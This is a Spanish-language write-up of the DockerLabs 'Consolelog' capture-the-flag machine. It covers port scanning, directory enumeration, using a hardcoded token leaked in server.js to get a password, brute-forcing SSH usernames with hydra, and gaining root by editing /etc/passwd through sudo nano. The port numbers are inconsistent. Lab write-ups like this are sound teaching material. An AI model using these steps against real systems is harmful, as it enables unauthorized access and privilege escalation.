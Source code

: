 ```yaml
---
title: Consolelog - DockerLabs
published: true
categories: DockerLabs
---
```


| OS     | Dificultad  | Creator              |
| ------ | ----------- | -------------------- |
| Linux  | Fácil      | El Pingüino de Mario |

# Reconocimiento Inicial

Comenzamos el proceso de reconocimiento identificando los puertos abiertos en el sistema objetivo.

```shell
sudo nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 172.17.0.2 -oG ports
```

- `-p-`: Escanea todos los puertos (1-65535).
- `--open`: Solo muestra los puertos abiertos.
- `-sS`: Realiza un escaneo SYN, que es rápido y discreto.
- `--min-rate=5000`: Envía al menos 5000 paquetes por segundo, acelerando el escaneo.
- `-n`: No realiza resolución DNS.
- `-Pn`: No realiza ping previo para determinar si el host está activo.
- `-vvv`: Muestra resultados detallados y en tiempo real.

![image](https://github.com/user-attachments/assets/463bc887-458f-4249-9e04-50b15ab5aa57)

Durante el escaneo, descubrimos que los puertos abiertos son:
- `8080` (HTTP)
- `3000` (Node.js)
- `5000` (SSH)

# Enumeración de Servicios

A continuación, evaluamos si los puertos abiertos presentan alguna vulnerabilidad y obtenemos más información sobre los servicios asociados a estos puertos.

```bash
nmap -p80,3000,5000 -sCV 172.17.0.2 -oG targeted  
```

![image](https://github.com/user-attachments/assets/21950d80-3e56-42ca-ad50-6b960f9d72da)

# Exploración Web

Al navegar al puerto `80`, descubrimos un sitio web con el título "Mi sitio web" y un botón etiquetado como "Botón en fase beta".

Utilizamos `Gobuster` para realizar un reconocimiento web y explorar los directorios disponibles en el sitio.

```bash
gobuster dir -u http://172.17.0.2 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,doc,html,txt,img
```

- `gobuster dir`: Indica que estás utilizando la herramienta Gobuster para realizar un escaneo de directorios.
- `-u http://172.17.0.2/`: Especifica la URL objetivo que deseas escanear.
- `-w`: Especifica el diccionario a utilizar.
- `-x`: Indica los tipos de extensiones que deseas buscar.

![image](https://github.com/user-attachments/assets/5d7cea6b-7108-49a9-be4b-2ba3959af3c2)

Encontramos una ruta llamada `/backend`, la cual contiene varios archivos. Uno de ellos es `server.js`, que revela la configuración del servicio Node.js en el puerto 3000.

```javascript
const express = require('express');
const app = express();

const port = 3000;

app.use(express.json());

app.post('/recurso/', (req, res) => {
    const token = req.body.token;
    if (token === 'tokentraviesito') {
        res.send('lapassworddebackupmaschingonadetodas');
    } else {
        res.status(401).send('Unauthorized');
    }
});

app.listen(port, '0.0.0.0', () => {
    console.log(`Backend listening at http://consolelog.lab:${port}`);
});
```

Este código indica que en el puerto `3000`, al enviar una petición POST a la ruta `/recurso` con un cuerpo JSON que contenga el token `tokentraviesito`, se nos devolverá la cadena `lapassworddebackupmaschingonadetodas`.

Realizamos la petición con `curl`:

```bash
curl -X POST http://172.17.0.2:3000/recurso/ -H "Content-Type: application/json" -d '{"token": "tokentraviesito"}'  
```

![image](https://github.com/user-attachments/assets/51ba41bb-66af-44be-9522-63cceabdeb9f)

Obtuvimos la contraseña `lapassworddebackupmaschingonadetodas`. Aunque aún no sabemos a qué pertenece, intentamos realizar fuerza bruta en el servicio SSH utilizando `hydra` para buscar un usuario válido.

```bash
hydra -L /usr/share/wordlists/rockyou.txt  -p "lapassworddebackupmaschingonadetodas" ssh://172.17.0.2:5000 -t 4
```

![image](https://github.com/user-attachments/assets/3e733dac-0c6d-4864-a4f8-ad413cf5d71a)

Encontramos el usuario `lovely`.

# Escalación de Privilegios

Tras acceder como `lovely`, ejecutamos `sudo -l` y verificamos que podemos ejecutar `nano` como `root`:

![image](https://github.com/user-attachments/assets/788a4abb-a227-4378-924a-ae8882fd174d)

Usamos `nano` para modificar el archivo `/etc/passwd` y eliminar la `x` del usuario `root`. Esto elimina la solicitud de contraseña al iniciar sesión como `root`.

![image](https://github.com/user-attachments/assets/5c3f49dc-018b-4924-9df9-57446f6dc032)

Finalmente, ejecutamos:

```bash
su root
```

Ahora tenemos acceso como usuario `root`.

![image](https://github.com/user-attachments/assets/2ff5985e-9af5-47d2-a01f-48c66cc44789)

